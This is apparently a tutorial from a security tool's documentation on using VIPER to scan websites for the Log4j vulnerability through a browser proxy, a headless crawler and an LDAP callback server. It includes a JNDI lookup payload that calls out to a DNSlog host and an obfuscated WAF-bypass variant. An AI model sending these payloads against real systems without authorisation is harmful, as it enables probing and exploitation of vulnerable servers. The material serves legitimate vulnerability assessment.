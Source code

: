 # Using VIPER to Scan Log4j Vulnerabilities (Active Scanning / Passive Scanning)

# Functional Features

## Passive Scanning

+ Automatically replace GET request parameters with Payload
+ Automatically replace POST request parameters with Payload
+ Automatically replace values in POST request JSON with Payload
+ Automatically skip password fields
+ Automatically add Payload to headers (based on dictionary polling)
+ Payload includes original Payload and Payload that bypasses WAF
+ Supports two callback modes: DNSLOG and LDAPServer (LDAPServer is more suitable for internal network self-check)

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ The Payload contains UUID, and the specific request content that triggers the vulnerability can be found according to the DNSLOG record.

## Active Scanning

+ Use chrome headless + crawler to automatically obtain all requests on the page and import them into the passive proxy to achieve automated scanning.
+ Command

```plain
.\crawlergo.exe -c./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

# Usage Tutorial

## Passive Scanning

+ Update the VIPER version to `v1.5.10`
+ Start VIPER

![](img\Use_Viper_to_scan_log4j_vulnerabilities\1.webp)

+ Set the browser proxy to viperip:28888

![](img\Use_Viper_to_scan_log4j_vulnerabilities\2.webp)

+ Enable the Log4j2 module in "Passive Scanning"

![](img\Use_Viper_to_scan_log4j_vulnerabilities\3.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\4.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\5.webp)

+ Open the target website through the browser and click around and enter information at will.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\6.webp)![](img\Use_Viper_to_scan_log4j_vulnerabilities\7.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\8.webp)

+ VIPER's background will automatically replace the entered values with Payload.
+ Log in to the DNSlog platform and observe whether there are records.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\9.webp)

+ Copy the UUID information in the red box and query in the main page.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\10.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\11.webp)

+ The query result contains the specific request that can trigger the vulnerability.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\12.webp)

## Active Scanning

+ Update the VIPER version to `v1.5.10`
+ Start VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ Enable the Log4j2 module in "Passive Scanning"

![1640007481033-26813815-236e-4a14-8892-29b203e9a03e.webp](./img/c0meLUd67I2xejnp/1640007481033-26813815-236e-4a14-8892-29b203e9a03e-373377.webp)

![1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7.webp](./img/c0meLUd67I2xejnp/1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7-726991.webp)

![1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b.webp](./img/c0meLUd67I2xejnp/1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b-088978.webp)

+ Here, it is assumed that the website to be tested is [http://target.com](http://target.com).
+ Install crawlergo [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)
+ Start the crawler and send the traffic to VIPER's proxy.

```plain
.\crawlergo.exe -c./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

+ Wait for the crawler to finish.
+ Log in to the DNSlog platform and observe whether there are records.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\13.webp)

+ Copy the UUID information in the red box and query in the main page.

![1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148.webp](./img/c0meLUd67I2xejnp/1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148-776102.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\14.webp)

+ The query result contains the specific request that can trigger the vulnerability (<font style="color:#E8323C;">This request is automatically sent by Crawlergo</font>).

![](img\Use_Viper_to_scan_log4j_vulnerabilities\15.webp)

## Using LDAPServer for Callback

+ Update the VIPER version to `v1.5.10`
+ Start VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ Set the browser proxy to viperip:28888

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)

+ Enable the Log4j2 module in "Passive Scanning"

![1640007481033-26813815-236e-4a14-8892-29b203e9a03e.webp](./img/c0meLUd67I2xejnp/1640007481033-26813815-236e-4a14-8892-29b203e9a03e-373377.webp)

+ Configure DNSLOG as `VPSIP:1387` here.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\16.webp)

+ Execute the following command to start VIPER's built-in LDAPServer.

```plain
docker exec -it viper-c bash
python3 /root/viper/STATICFILES/Tools/ldapserver.py -p 1387
```

![](img\Use_Viper_to_scan_log4j_vulnerabilities\17.webp)

+ Open the target website through the browser and click around and enter information at will.

![1639677273615-41f05455-b87e-491c-b993-3b934acfa646.webp](./img/c0meLUd67I2xejnp/1639677273615-41f05455-b87e-491c-b993-3b934acfa646-144672.webp)![1639677289481-de3c8d9f-814d-46eb-889d-46847f552404.webp](./img/c0meLUd67I2xejnp/1639677289481-de3c8d9f-814d-46eb-889d-46847f552404-170675.webp)

![1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db.webp](./img/c0meLUd67I2xejnp/1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db-024025.webp)

+ The VIPER background will automatically replace the input value with Payload.
+ The LDAPServer will receive the back-connection request and print the request UUID.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\18.webp)

+ Copy the uuid information in the red box and query in the main page.

![1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148.webp](./img/c0meLUd67I2xejnp/1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148-776102.webp)

![1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc.webp](./img/c0meLUd67I2xejnp/1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc-909468.webp)

+ The query result contains specific requests that can trigger vulnerabilities.

![1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741.webp](./img/c0meLUd67I2xejnp/1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741-420030.webp)

##  

## Testing HTTPS websites

+ Update the VIPER version to `v1.5.10`.
+ Start VIPER.

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ Set the browser proxy to viperip:28888.

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)

+ Open the browser at [http://mitm.it/](http://mitm.it/).

![](img\Use_Viper_to_scan_log4j_vulnerabilities\19.webp)

+ Download the certificate corresponding to the platform and install it (taking Windows as an example).

![](img\Use_Viper_to_scan_log4j_vulnerabilities\20.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\21.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\22.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\23.webp)

+ Do not fill in any information.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\24.webp)

+ Here, you need to select a trusted root certificate.

![](img\Use_Viper_to_scan_log4j_vulnerabilities\25.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\26.webp)

+ Please delete the corresponding certificate from the system configuration after the test is completed.


